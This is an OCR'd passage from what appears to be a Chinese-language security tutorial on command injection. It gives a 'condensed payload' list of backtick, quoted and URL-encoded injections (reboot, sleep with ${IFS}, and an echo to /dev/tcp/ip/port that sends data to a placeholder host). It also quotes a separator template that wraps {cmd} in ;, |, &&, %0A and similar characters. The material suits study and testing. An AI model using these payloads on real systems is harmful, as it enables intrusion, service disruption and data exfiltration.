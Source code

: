 **精简版payload**
```
`reboot`
'`reboot`'
%60%72%65%62%6f%6f%74%60
%27%60%72%65%62%6f%6f%74%60%27
`sleep${IFS}30`
{sleep,30}
'`sleep${IFS}30`'
'{sleep,30}'
%60%73%6c%65%65%70%24%7b%49%46%53%7d%33%30%60
%27%60%73%6c%65%65%70%24%7b%49%46%53%7d%33%30%60%27
`echo${IFS}uuid>/dev/tcp/ip/port`
'`echo${IFS}uuid>/dev/tcp/ip/port`'
%60%65%63%68%6f%24%7b%49%46%53%7d%75%75%69%64%3e%2f%64%65%76%2f%74%63%70%2f%69%70%2f%70%6f%72%74%60
%27%60%65%63%68%6f%24%7b%49%46%53%7d%75%75%69%64%3e%2f%64%65%76%2f%74%63%70%2f%69%70%2f%70%6f%72%74%60%27
```

上面的这些payload中，reboot有效的前提是进程以root权限运行，sleep有效的前提是sleep命令使主进程阻塞，而非在后台执行。所有payload有效的前提是没有被特殊字符过滤，大家可以看到上述payload都是基于反引号，如果反引号被过滤，那么这些payload就都失效，但这并不意味着目标系统就没有注入点。

我在参考材料[18]看到一份命令注入模板，这个模块也可以提供一些生成payload的思路, 我截取一部分在下面展示。

```
{cmd}
;{cmd}
;{cmd};
^{cmd}
|{cmd}
<{cmd}
<{cmd};
<{cmd}\n
<{cmd}%0D
<{cmd}%0A
&{cmd}
&{cmd}&
&&{cmd}
&&{cmd}&&
%0D{cmd}
%0D{cmd}%0D
%0A{cmd}
%0A{cmd}%0A
\n{cmd}
\n{cmd}\n
'{cmd}'
`{cmd}`
;{cmd}|
;{cmd}/n
|{cmd};
a);{cmd}
a;{cmd}
a);{cmd}
a;{cmd};
a);{cmd}|

...
```
